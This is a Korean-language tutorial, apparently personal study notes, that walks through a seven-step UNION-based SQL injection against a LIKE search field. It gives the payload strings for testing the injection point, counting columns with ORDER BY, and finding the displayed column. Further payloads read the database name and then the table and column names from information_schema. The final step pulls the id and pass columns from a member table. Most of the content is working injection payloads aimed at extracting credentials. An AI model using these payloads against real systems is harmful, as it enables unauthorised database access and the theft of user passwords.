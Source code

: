 # UNION SQL Injection Process

### **UNION SQL Injection Process**

1. **SQL Injection 포인트 찾기**
2. **COLUMN 개수 찾기**
3. **출력되는 column 위치 찾기**
4. **DB 이름 확인**
5. **Table 이름 확인**
6. **Column 이름 확인**
7. **Data 추출**

&#x20;

항시 위 순서에 맞게 인젝션을 진행하는 게 좋다.

&#x20;

&#x20;

&#x20;

#### 1. SQL Injection 포인트 찾기

: SQL Injection이 되는지 안 되는지 체크하기

&#x20;

1\) like 구문인지 먼저 확인

예시) overwatch 를 검색할 때, full name을 써야한다면 like 아님. over처럼 <mark style="background-color:orange;">**일부만 써도 검색 된다면 like**</mark> 임.

&#x20;

like인 경우 구문은 다음과 같다.

select \* from game where name <mark style="background-color:orange;">**like 'over%'**</mark>

&#x20;

따라서 like 구문인 곳에서는 다음과 같이 SQL Injection 포인트를 찾는다.

1\. 맞는 조건으로 구문 넣어보기

<mark style="background-color:orange;">**over%' and '1%' = '1**</mark>

2\. 틀린 조건으로 구문 넣어보기

<mark style="background-color:orange;">**overrrrr%' and '1%' = '1**</mark>

&#x20;

맞는 조건에선 이상 없고, 틀린 조건에서 결과가 없다고 나오면 SQL Injection이 가능하다고 보면 된다.

&#x20;

&#x20;

#### 2. COLUMN 개수 찾기

union 좌우 select의 컬럼 갯수를 맞춰줘야 하기 때문에

해당 테이블의 컬럼 갯수를 다음과 같이 확인한다.\
(order by 1의 의미 : 1번째 열을 기준으로 정렬해줘!)

&#x20;

<mark style="background-color:orange;">over%'</mark> <mark style="color:red;background-color:orange;">**order by**</mark> <mark style="background-color:orange;">1#</mark>

<mark style="background-color:orange;">over%' order by 2#</mark>

...

&#x20;

오류가 나지 않을 때까지 갯수를 확인한다.

&#x20;

&#x20;

#### 3. 출력되는 column 위치 찾기&#x20;

화면에 출력되는 컬럼이 몇 번째인지 확인한다.

&#x20;

예시) 컬럼이 4개일 때

<mark style="background-color:orange;">over%' union select 1,2,3,4 #</mark>

&#x20;

만약 1, 2, 3, 4가 모두 뜬다면 모든 컬럼을 사용할 수 있는 것.

2만 뜬다면 그 컬럼만 사용할 수 있는 것이다.

&#x20;

&#x20;

#### 4. DB 이름 확인&#x20;

DB의 이름은 다음과 같이 확인할 수 있다.

&#x20;

예시) 두 번째 컬럼만 활용 가능할 때

<mark style="background-color:orange;">over%' union select 1,</mark><mark style="color:red;background-color:orange;">**database()**</mark><mark style="background-color:orange;">,3,4 #</mark>

&#x20;

&#x20;

#### 5. Table 이름 확인&#x20;

테이블 이름은 다음과 같이 확인할 수 있다.

&#x20;

예시) db이름은 위에서 확인한 db 이름을 사용하면 된다.

<mark style="background-color:orange;">over%' union select 1,</mark><mark style="color:red;background-color:orange;">**table\_name**</mark><mark style="background-color:orange;">,3,4 from information\_schema.tables where table\_schema = "</mark><mark style="color:red;background-color:orange;">**DB이름**</mark><mark style="background-color:orange;">" #</mark>

&#x20;

&#x20;

#### 6. Column 이름 확인&#x20;

해당 테이블에 어떤 컬럼들이 있는지 확인한다.

&#x20;

<mark style="background-color:orange;">over%' union select 1,</mark><mark style="color:red;background-color:orange;">**column\_name**</mark><mark style="background-color:orange;">,3,4 from information\_schema.columns where table\_name = '</mark><mark style="color:red;background-color:orange;">**Table이름**</mark><mark style="background-color:orange;">'#</mark>

&#x20;

&#x20;

#### 7. Data 추출&#x20;

지금까지 얻은 정보를 바탕으로 다음과 같이 데이터를 추출한다.

&#x20;

예시) 두 번째 컬럼만 활용 가능할 때

<mark style="background-color:orange;">over%' union select 1,id,3,4 from member #</mark>

<mark style="background-color:orange;">over%' union select 1,pass,3,4 from member #</mark>
